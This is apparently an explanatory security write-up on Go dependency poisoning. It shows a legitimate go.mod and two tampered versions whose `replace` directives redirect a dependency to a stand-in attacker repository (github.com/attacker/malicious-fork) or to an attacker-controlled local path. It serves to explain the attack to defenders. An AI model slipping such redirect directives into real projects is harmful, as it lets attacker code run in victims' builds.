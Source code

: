 The following illustrates how a `go.mod` file can be altered with a malicious `replace` directive to facilitate dependency poisoning.

Consider an original, legitimate `go.mod` file:

`module example.com/victim/project

go 1.21`

```go
require (
    example.com/legit/dependency v1.2.0
    // other legitimate dependencies
)
```

An attacker, having gained the ability to modify this `go.mod` file, could introduce a `replace` directive as follows:

**Scenario 1: Replacement with an Attacker-Controlled Remote Repository**

`module example.com/victim/project

go 1.21

require (
    example.com/legit/dependency v1.2.0 // The original requirement remains
    // other legitimate dependencies
)

// Malicious replace directive pointing to an attacker's repository
replace example.com/legit/dependency v1.2.0 => github.com/attacker/malicious-fork v1.0.0`

**Explanation of Scenario 1:**

- The `require` directive still lists the legitimate `example.com/legit/dependency v1.2.0`.
- The `replace` directive, however, overrides this. It instructs the Go toolchain to ignore the canonical source for `example.com/legit/dependency v1.2.0` and instead fetch the code from `github.com/attacker/malicious-fork` at version `v1.0.0`.
- The attacker's repository at `github.com/attacker/malicious-fork` would host code that mimics the API of `example.com/legit/dependency` to avoid immediate build failures but contains a hidden malicious payload. The version `v1.0.0` in the replacement is controlled by the attacker and may not correspond to any legitimate versioning scheme of the original package. This syntax is supported by Go's module system.

**Scenario 2: Replacement with an Attacker-Controlled Local Path (if committed or present in build env)**

`module example.com/victim/project

go 1.21

require (
    example.com/legit/dependency v1.2.0
    // other legitimate dependencies
)

// Malicious replace directive pointing to a local filesystem path
replace example.com/legit/dependency v1.2.0 =>../../attacker_controlled_local_dir`
